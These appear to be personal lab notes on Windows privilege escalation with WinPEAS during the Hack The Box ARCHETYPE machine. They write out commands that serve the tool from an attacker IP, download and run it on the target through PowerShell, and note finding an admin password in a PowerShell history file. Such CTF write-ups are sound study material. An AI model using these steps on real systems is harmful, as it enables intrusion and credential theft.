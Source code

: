 # WinPeas notes
﷽
* **WinPEAS - Windows Privilege Escalation Awesome Script :D**

## Guide
### File transfer
* Locate winpeas.exe:
  * `locate winpeas.exe`
* Start a python server:
  * `python3 -m http.server 8000`
* `cmd.exe` does not have wget. Switch to powershell:
  * `powershell`
* download the file:
  * `Invoke-WebRequest -Uri http://10.10.16.11:8000/winPEAS.exe -OutFile winPEAS.exe -UseBasicParsing`, where
    * `10.10.16.11` is my IP, and
    * `8000` is the port of the HTTP server, and
    * `winPEAS.exe` is the name of the winPEAS executable.
* Now, run the tool:
  * `./winPEAS.exe`
* The script will run and provide you with valuable information.
  * In my case (HTB: ARCHETYPE) we found a file called `ConsoleHost_history.txt`, in which we found the admin user's password.



